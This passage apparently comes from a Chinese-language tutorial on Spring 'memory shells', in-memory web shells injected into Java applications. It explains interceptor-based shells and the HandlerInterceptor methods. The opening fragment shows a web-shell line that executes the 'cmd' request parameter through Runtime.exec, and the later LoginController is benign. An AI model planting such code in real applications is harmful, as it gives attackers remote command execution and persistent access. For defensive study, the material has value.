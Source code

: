 ```plain
            HttpServletRequest request = ((ServletRequestAttributes) (RequestContextHolder.currentRequestAttributes())).getRequest();
            Runtime.getRuntime().exec(request.getParameter("cmd"));
        }
    }

}
```



# interceptor内存马
<font style="color:rgb(31, 35, 40);">Interceptor 内存马比之 Controller 内存马 更具有实战意义，在实际环境中，常常会遇到无论我们访问什么路由，都会因为没有登录而被拦截器跳转到</font>`<font style="color:rgb(31, 35, 40);">/login</font>`<font style="color:rgb(31, 35, 40);">路由的情况。</font>

<font style="color:rgb(31, 35, 40);">定义</font>`<font style="color:rgb(31, 35, 40);">Interceptor</font>`<font style="color:rgb(31, 35, 40);">大致有两种方式：</font>

+ <font style="color:rgb(31, 35, 40);">实现</font>`<font style="color:rgb(31, 35, 40);">HandlerInterceptor</font>`<font style="color:rgb(31, 35, 40);">接口或者继承</font>`<font style="color:rgb(31, 35, 40);">HandlerInterceptor</font>`<font style="color:rgb(31, 35, 40);">接口的实现类；</font>
+ <font style="color:rgb(31, 35, 40);">实现</font>`<font style="color:rgb(31, 35, 40);">WebRequestInterceptor</font>`<font style="color:rgb(31, 35, 40);">接口或者继承</font>`<font style="color:rgb(31, 35, 40);">WebRequestInterceptor</font>`<font style="color:rgb(31, 35, 40);">接口的实现类</font>



<font style="color:rgb(31, 35, 40);"></font>`<font style="color:rgb(31, 35, 40);">HandlerInterceptor</font>`<font style="color:rgb(31, 35, 40);">类一共有三个方法，作用分别为：</font>

+ `<font style="color:rgb(31, 35, 40);">preHandle()</font>`<font style="color:rgb(31, 35, 40);">：在 Controller 处理请求之前执行，返回</font>`<font style="color:rgb(31, 35, 40);">true</font>`<font style="color:rgb(31, 35, 40);">为放行，执行下一个拦截器，如果没有拦截器就执行 Controller 方法；返回</font>`<font style="color:rgb(31, 35, 40);">false</font>`<font style="color:rgb(31, 35, 40);">为不放行，不会执行 Controller 方法。</font>
+ `<font style="color:rgb(31, 35, 40);">postHandle()</font>`<font style="color:rgb(31, 35, 40);">：在 Controller 处理请求之后、解析视图（例如 JSP）之前执行，如果拦截器定义了跳转的页面，则不会跳转 Controller 方法指定的页面。</font>
+ `<font style="color:rgb(31, 35, 40);">afterCompletion()</font>`<font style="color:rgb(31, 35, 40);">：在 Controller 处理请求之后、解析视图之后执行，该方法可以完成一些处理日志之类的任务。</font>

代码抄了下别人的

controller

```plain
package org.muscial.spring.demos.web;

import org.springframework.stereotype.Controller;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.ResponseBody;

@Controller
public class LoginController{
    @ResponseBody
    @RequestMapping("/login")
    public String Login(){
        return "Success";
    }

}
```
